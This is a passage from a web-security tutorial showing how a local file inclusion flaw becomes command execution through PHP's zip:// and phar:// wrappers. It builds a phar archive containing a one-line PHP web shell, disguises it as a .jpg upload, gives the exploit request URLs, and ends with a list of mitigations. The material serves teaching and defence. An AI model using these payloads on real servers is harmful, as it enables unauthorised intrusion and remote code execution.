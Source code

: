 This creates a zip archive named shell.jpg containing shell.php.

**Exploit LFI with Zip Archive**: Assuming the path to the uploaded zip archive is /profile\_images/shell.jpg:

Shell

```php
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

#### **Phar Upload Exploitation**

Using the phar:// wrapper, we can similarly exploit LFI vulnerabilities by crafting a phar archive that contains PHP code.

#### **Creating and Exploiting a Phar Archive**

**Create a PHP Script to Create Phar (shell.php)**:

PHP

```php
**<?php**
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```

**Compile PHP Script into Phar Archive**:

Shell

```php
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

This compiles shell.php into shell.phar and renames it to shell.jpg.

**Exploit LFI with Phar Archive**: Assuming the path to the uploaded phar archive is /profile\_images/shell.jpg:

Shell

```php
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

#### Mitigation Techniques:

1. **Contextual Validation:**
   * Implement context-specific validation of user inputs. For example, validate that URLs used for file inclusion are from trusted domains and not manipulated to include unintended files.
2. **Server-Side Security Controls:**
   * Utilize web application firewalls (WAFs) and intrusion detection systems (IDS) to monitor and block requests that attempt to exploit file inclusion vulnerabilities.
3. **File Path Handling:**
   * **LFI:** Use relative file paths instead of absolute paths whenever possible. This reduces the risk of an attacker specifying arbitrary files on the server.
   * **RFI:** Avoid dynamically constructing URLs for file inclusion. If necessary, validate and sanitize URLs rigorously to prevent unauthorized access.
4. **Logging and Monitoring:**
   * Implement logging mechanisms to record access attempts and exceptions related to file operations. Monitor logs for suspicious activities or attempts to access restricted files.
5. **Regular Security Audits:**
   * Conduct regular security audits and code reviews to identify and mitigate file inclusion vulnerabilities. Use automated tools and manual testing to detect and address vulnerabilities proactively.
